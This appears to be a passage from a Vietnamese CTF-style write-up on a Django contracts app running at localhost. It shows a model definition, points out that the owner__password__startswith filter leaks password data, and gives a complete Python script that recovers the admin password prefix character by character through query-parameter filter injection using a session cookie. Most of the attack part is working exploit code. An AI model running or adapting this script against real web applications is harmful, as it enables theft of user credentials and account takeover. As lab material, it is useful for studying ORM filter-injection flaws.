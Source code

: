 ```python
        choices=Status.choices,
        default=Status.DRAFT,
        help_text="Current status of the contract"
    )
    created_at = models.DateTimeField(auto_now_add=True)
    updated_at = models.DateTimeField(auto_now=True)
    owner = models.ForeignKey(
        settings.AUTH_USER_MODEL,
        on_delete=models.CASCADE,
        related_name='contracts',
        help_text="User who owns the contract"
    )

    terms = models.TextField(help_text="Terms and conditions of the contract")
    amount = models.DecimalField(max_digits=10, decimal_places=2, help_text="Total contract amount")
    attachments = models.FileField(upload_to='contracts/attachments/', null=True, blank=True, help_text="Any associated documents or files")

    def __str__(self):
        return f"{self.title} ({self.get_status_display()})"    
```
    
Sau khi đọc lại đoạn trên thì mình thấy có thể leak ra password qua owner__password__startswith
    
Đây là đoạn script mình dùng để exploit password của admin
    
```python
import requests
import re
import string

url = 'http://localhost:1337'
token = "66c20ac61de09900103a2a779e88beee"
admin_pass = ""

s = requests.session()
s.cookies.update({'_contract_frontend_session': token})

def filter(filters):
    r = s.get(f'{url}/contracts/manage',params=filters)
    assert r.status_code == 200
    cnt = re.findall(r'<<a href="/contracts/(.*)"', r.text)
    return len(cnt)

admin_pass = ''
while 1:
    before = admin_pass
    for guess in string.ascii_lowercase:
        x = filter(filters={
            "owner__password__startswith": f"{admin_pass}{guess}",
            "owner__username__startswith": f"admin"
        })
        if x > 2:
            admin_pass += guess
            print(admin_pass)
            break
    if before == admin_pass:
        break



print("Found : ", admin_pass)    
```
    